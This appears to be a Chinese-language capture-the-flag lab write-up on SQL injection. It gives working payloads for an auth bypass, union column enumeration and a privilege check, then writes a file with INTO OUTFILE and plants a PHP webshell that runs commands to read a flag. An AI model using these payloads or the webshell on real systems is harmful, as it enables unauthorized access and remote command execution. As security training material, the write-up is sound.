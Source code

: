 # SQL实验报告

## SQL Injection Fundamentals

### 解题思路

```blank
1.使用下列SQL语句进行注入。结尾使用limit 1限制查询结果为1条，绕过权限进入页面。
```

```sql
' or 1=1 limit 1 -- #
```

![1](./img/2.png)

```blank
2.随机尝试union注入，发现前端页面返回的是后端的信息，并不进行过滤处理，综合步骤1考虑判断本网站存在SQL注入漏洞。
```

```sql
' union select 1,2,3,4 -- #
```

![2](./img/3.png)

```blank
3.通过尝试，发现union拼接列数为5，其中2-5条返回至前端。
```

```sql
' union select 1,2,3,4,5 -- #
```

![3](./img/4.png)

```blank
4.查询用户是否有权限，第二列结果为Y，表示用户有权限。
```

```sql
cn' union select 1, SUPER_PRIV, 3, 4, 5 from MYSQL.USER where user="ROOT"-- #
```

![4](./img/5.png)

```blank
5.尝试写入文件，通过URL访问该文件。
```

```sql
cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- #
```

```url
http://64.227.32.37:30644/dashboard/proof.txt
```

![5](./img/6.png)

```blank
6.写入shell.php文件，拿到Webshell。尝试执行ls命令查看目录下的文件。
```

```sql
cn' union select "","",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- #
```

```bash
ls
```

![6](./img/7.png)

```blank
7.使用Webshell执行下列URL，获取系统/目录下的所有文件，发现有flag的文件，文件名为flag_cae1dadcd174.txt。
```

```bash
ls /
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=ls%20/
```

![7](./img/8.png)

```blank
8.执行cat读取命令，获取flag。
flag为：528d6d9cedc2c7aab146ef226e918396
```

```bash
cat /flag_cae1dadcd174.txt
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```

![8](./img/9.png)

### 结果截图

![10](./img/10.png)

---
